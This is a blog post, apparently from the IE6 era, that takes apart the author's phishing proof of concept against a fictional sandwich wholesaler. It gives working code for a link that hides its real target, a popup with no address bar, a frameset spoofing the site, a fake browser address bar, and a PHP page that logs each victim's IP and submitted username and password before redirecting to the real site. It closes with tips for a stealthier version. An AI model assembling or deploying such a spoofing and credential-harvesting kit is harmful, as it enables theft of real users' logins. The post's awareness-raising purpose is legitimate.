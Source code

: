 ```yaml
---
layout: post
title: The anatomy of a phishing attack - advanced technique
tags:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwhiches with a website at wholesalepbj.com.  My 'fake' URL that I provided the target with was from an e-mail from sales@wholesalepbj.com which told them about a new promotion we were running.  It told them to goto diamondquality-wholesalepbj.com for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited wholesalepbj.com and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  diamondquality-wholesalepbj.com, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to goto our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  Just click <a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a> ...
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
    window.open("redirectToPBJ.html", "PBJWindow",
                "status=0,toolbar=0,location=0,left=1,top=1,height=" + screen.height + ",width=1010");
    return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns 'false' so we never goto the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see alot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to pbj, we name it pbjwindow, etc.  You'll notice the only suspect thing is 'location=0' in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

Lets check out the content of redirectToPBJ.html

```html
<html>
	<title>http://www.wholesalepbj.com</title>
	<frameset rows="27,*" border=0 frameborder=0>
		<frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
		<frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
	</frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to www.wholesalepbj.com.html.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the top.html file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

top.html contains this text:

```html
<style type="text/css">
    body {
        margin: 0px;
        padding: 0px;
        background-color: #d4d0c8;
        font-family: tahoma;
        font-size: 11px;
        border-top: 1px solid #ffffff;
        border-bottom: 1px solid #aaaaaa;
        vertical-align: middle;
    }

    #address {
        float: left;
        height: 35px;
        padding: 3px;
    }

    #addressbox {
        width: 910px;
    }

    #gobutton {
        background-image: url('go.jpg');
        background-repeat: no-repeat;
        border: 0px;
        padding-left: 17px;
    }
</style>
<script type="text/javascript">
    function gotoAddress()
    {
        var v= document.getElementById('addressbox').value;
        if (v.substr(0, 7) != 'http://') {
            v = 'http://' + v;
        }
        top.opener.location.href=v;
        parent.window.close();
        return false;
    }
</script>

<p id="address">Address</p>
<p id="box">
    <form name="address" action="/" onsubmit="return gotoAddress()">
        <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
        <input value="Go" id="gobutton" type="submit" />
    </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The go.jpg is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an http://, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to wholesalepbj.com in my browser and did a file -> save as - and saved the entire web page and archive named 'www.wholesalepbj.com.html'.  I uploaded this to my evil server as well.  It had to be named this so we could support the 'src' attribute in our framed document top.html's source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll goto the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite($f, "----------------------------\nip: " . $_SERVER['REMOTE_ADDR'] . "n" . print_r($_POST, TRUE));
fclose($f);  //note - additional spaces added in here cuz wordpress keeps eating these...
?>
<script type="text/javascript">
	parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.